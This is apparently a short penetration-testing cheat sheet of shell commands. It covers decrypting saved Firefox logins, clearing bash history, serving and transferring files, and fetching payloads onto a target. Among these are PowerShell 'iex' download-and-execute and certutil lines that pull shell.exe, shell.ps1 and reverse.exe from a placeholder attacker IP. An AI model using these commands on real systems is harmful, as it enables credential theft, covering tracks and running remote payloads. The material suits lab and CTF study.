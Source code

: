 ## Tmux Tutorial
- [https://leimao.github.io/blog/Tmux-Tutorial/](https://leimao.github.io/blog/Tmux-Tutorial/)
## Decrypting Firefox
Make sure the following files are available
- `cert9.db`
- `key4.db`
- `cookies.sqlite`
- `logins.json`
Use tool [firefox_decrypt](https://github.com/unode/firefox_decrypt) to crack the username and password combination
```nix
python3 firefox_decrypt firefox-profile/
```
## Clearing Bash History
```nix
cat /dev/null > ~/.bash_history && history -c && exit
```
## Create HTTP server with Python
```nix
# Python 2
python -m SimpleHTTPServer 8000

# Python 3
python3 -m http.server 8000
```
## Download file using Base64 trick
Convert the file content into Base64 and save it
```nix
cat file.jpg | base64 > file.b64
```
Decode the Base64 content and save it into a proper file
```nix
cat file.b64 | base64 --decode > file.jpg
```
## Mounting a `/dev` directory to `/mnt`
```nix
sudo mount /dev/suspicious_disk /mnt/amogus
```
## Check a binary's content
```nix
strings binary
```
## Download file on machine
Linux
```nix
wget 10.10.10.10/file -O /tmp/file
```
Windows
```cmd
certutil -urlcache -f http://10.10.10/shell.exe shell.exe
```
```powershell
Invoke-WebRequest -uri 10.10.10.10/file.exe -outfile C:\\\\Windows\\temp\\file.exe
```
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/shell.ps1');
```
```powershell
powershell -c wget "http://10.10.10.10/reverse.exe" -outfile "reverse.exe"
```
## Using xFreeRDP to access Window Machines
```nix
xfreerdp +clipboard /u:username /p:password /v:10.10.10.10 /size:1280x760
```